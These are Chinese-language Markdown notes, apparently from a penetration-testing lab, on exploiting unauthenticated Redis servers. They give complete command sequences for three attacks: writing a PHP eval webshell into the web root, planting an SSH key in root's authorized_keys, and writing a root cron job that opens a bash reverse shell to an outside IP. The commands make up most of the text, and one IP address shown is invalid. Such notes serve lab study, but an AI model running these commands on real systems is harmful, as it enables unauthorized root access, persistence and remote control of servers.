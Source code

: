 ```
http://target.yijinglab.com:56031
```

### 未授权漏洞利用方法
- 通过redis数据备份功能结合Web服务, 向网站根目录写入木马, 获取权限
- 通过redis数据备份功能写定时任务, 通过定时任务反弹shell
- 通过redis数据备份功能写SSH公钥, 实现免密登录linux服务器

#### 写Webshell
- 条件
	1. 知道网站根目录绝对路径
	2. 对目标网站根目录有写入权限
- 通过**目录扫描**发现文件, 在URL使用构造路径引用文件, 显示报错内容, 可能含有路径信息
- 写webshell: **重置redis根路径到web服务根目录, 使用写入备份功能植入木马**
```shell
redis-cli -h 122.114.225.148 -p 6379
config set dir /var/www/html
config set dbfilename shell.php
set x "<?php @eval($_POST['cmd']);?>"
save
```

#### 写SSH公钥
```shell
# 生成ssh密钥, 默认在Home目录下.ssh文件夹中
ssh-keygen -q -t rsa -f ~/.ssh/tmpssh/id_rsa -N ''

# 将公钥内容写入临时文件
(echo -e "\n\n"; cat ~/.ssh/tmpssh/id_rsa.pub; echo -e "\n\n")>/tmp/foo.txt

# 作为值写入redis, 键m
cat /tmp/foo.txt | redis-cli -h [target_IP] -p [target_port] -x set m

# 将刚才写入的键保存为文件
redis-cli -h [target_IP] -p [target_port]
config set dir /root/.ssh/
config set dbfilename "authorized_keys"
save

# getshell
ssh root@112.114.335.148 -p 2222 -i ~/.ssh/id_rsa
```

#### 写定时任务反弹shell
[[1.4 Linux反弹Shell#定时任务反弹shell]]
```shell
# 连接
redis-cli -h [target_IP] -p [target_port]
# 设置定时任务的路径和文件名
config set dir /var/spool/cron
config set dbfilename root
# 设定一分钟后的任务, 反弹shell
set x "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/124.71.45.28/4433 0>&1\n\n"
# 保存至文件
save
```
